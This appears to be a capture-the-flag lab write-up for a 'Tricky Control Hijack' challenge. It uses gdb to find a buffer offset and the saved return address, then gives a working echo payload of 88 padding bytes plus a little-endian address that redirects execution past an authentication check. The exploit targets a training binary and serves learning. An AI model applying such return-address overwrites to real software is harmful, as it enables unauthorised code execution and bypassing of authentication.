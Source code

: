 # Tricky Control Hijack (hard)

1. In gdb, `disas win_authed` and `disas main`, we get to know:
    - Instruction after auth check is at **0x00000000004021de**
    - challenge() returns at **0x0000000000402441**

2. Set a breakpoint `b *challenge+148`, run and give a short string of a's as input
3. `info frame` -> rbp is at **0x7ffd1df81e00**
4. `x/100xg $rbp-200`:
    - input buffer starts at **0x7ffd1df81db0**, which is **rbp-0x50** = rbp-80
    - return address is stored at **0x7ffd1df81e08**, which is **rbp+0x8** = rbp+8
5. 88 a's followed by desired address:

    ```shell
    echo -n -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xde\x21\x40\x00\x00\x00\x00\x00" | /challenge/binary-exploitation-control-hijack-2 
    ```
